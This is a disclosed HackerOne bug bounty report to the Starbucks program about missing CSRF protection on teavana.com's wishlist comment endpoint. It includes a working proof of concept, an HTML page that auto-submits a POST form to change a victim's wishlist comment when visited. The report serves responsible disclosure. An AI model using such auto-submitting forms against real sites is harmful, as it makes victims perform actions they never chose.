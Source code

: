 # CSRF exploit | Adding/Editing comment of wishlist items (teavana.com - Wishlist-Comments)

## Report Details
- **Report ID**: 177639
- **URL**: https://hackerone.com/reports/177639
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-23T12:19:25.070Z
- **Disclosed**: 2017-02-13T22:47:44.932Z

## Reporter
- **Username**: faisalahmed
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hello Team,
I noticed there is no CSRF protection in Adding/Editing comment of wishlist items.

AREA: https://www.teavana.com/us/en/my-wishlist

Attacker could take advantage of this issue and exploit victim remotely.

####POC:
Method: **POST**

POST URL: https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/C1495572478
*here `C1495572478` is wishlist id number*
Post Contents:
```
wishlistComment=comment
```

HTML POC to reproduce:
```
<html>
<head><title>CSRF POC</title></head>
<body onLoad="document.forms[0].submit()">
<form action="https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/C1495572478" method="POST">
<input type="text" name="wishlistComment" value="comment"><br>
<input type="text" name="save" value="Save"><br>
</form>
</body>
</html>
```

* Save this snippet as HTML.
* Make your victim visit the snippet/link.
* comment will be added/edited automatically.

Hope you'll fix this one.

Looking forward!

## Attachments
No attachments
